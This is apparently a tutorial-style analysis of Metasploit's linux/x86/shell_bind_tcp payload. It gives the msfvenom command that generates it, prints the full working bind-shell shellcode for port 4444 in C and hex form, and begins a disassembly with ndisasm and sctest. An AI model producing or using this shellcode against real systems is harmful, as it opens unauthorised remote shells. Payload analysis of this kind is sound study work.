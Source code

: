 ```
# echo -ne "\x41\x41\x41\x41\x41\x41" | sctest -vvv -Ss 100000 -G dotfile.dot | tee sctest_output.txt && dot dotfile.dot -Tpng > shellcode_graph.png 
```

Analysis
========

## 1. linux/x86/shell_bind_tcp

First up we'll generate a plain, unencoded, unstaged Linux x86 bind shell payload on port 4444. To do this, we run the following:

```
root@mountain:~# msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";

```

We've selected the C format as it is the most basic. We'll clean it up in a text editor such as vim to get all as one string. Here are the cleaned hex escaped bytes of the payload we've generated:

```
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```

We can immediately notice something interesting about this payload. There is a null byte, which would cause this payload to outright fail if it were to be used in this form in an actual exploit. Metasploit payloads practically expect to be passed through an encoder of some kind. In fact, if we were to set any bad characters with the `-b` flag, it would automatically select an encoder (usually `x86/shikata_ga_nai`) and run it through. 
 
We can echo this into `ndisasm` to get a simple disassembly of the bytes.   
```
root@mountain:~# echo -ne "\x31\xdb\xf7[...Omitted...]" | ndisasm - -u

00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
[... output omitted ...]
```

I'll also generate some automated analysis through `sctest`. Its output is quite verbose, so I'll only discuss some of the more interesting or useful parts. 
